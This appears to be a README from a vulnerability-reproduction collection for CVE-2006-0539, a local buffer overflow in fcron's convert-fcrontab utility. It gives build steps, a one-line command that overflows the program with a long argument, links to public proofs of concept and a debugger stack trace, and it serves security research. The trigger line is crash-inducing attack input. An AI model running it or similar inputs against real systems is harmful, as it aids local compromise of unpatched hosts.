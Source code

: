 # CVE-2006-0539

## Experiment Environment

Ubuntu 8.10

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2006-0539/fcron-3.0.0.src.tar.gz
tar -xvf fcron-3.0.0.src.tar.gz
cd fcron-3.0.0
./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./convert-fcrontab `perl -e 'print "pi3"x600'`
```

## PoCs

[Fcron Convert-FCronTab Local Buffer Overflow Vulnerability](https://www.securityfocus.com/bid/16467/exploit)

[Fcron 3.0 - Convert-FCronTab Local Buffer Overflow](https://www.exploit-db.com/exploits/27159/)

## Vulnerability Patch

### Root Cause

See [Fcron (convert-fcrontab) allow users to corruption on heap section.](https://www.securityfocus.com/archive/1/archive/1/423697/100/0/threaded) for details.

### Stack Trace

```
......
#9 0x40111caf in syslog () from /lib/libc.so.6
#10 0x0804a5d8 in log_syslog_str (priority=3, msg=0x804ee08 "Could not read ", 'A' <repeats 146 times>, " (truncated)")
at log.c:102
#11 0x0804a739 in log_e (priority=3, fmt=0x804abcf "Could not read %s", args=0xbffff014 "ĐČ\004\bpz\006@0l\001@áŘ")
at log.c:165
#12 0x0804a90c in die_e (fmt=0x804abcf "Could not read %s") at log.c:339
#13 0x0804923a in convert_file (file_name=0x804c8d0 'A' <repeats 200 times>...) at convert-fcrontab.c:153
#14 0x0804936d in main (argc=134523688, argv=0xbffff677) at convert-fcrontab.c:276
```

### Patch

## References
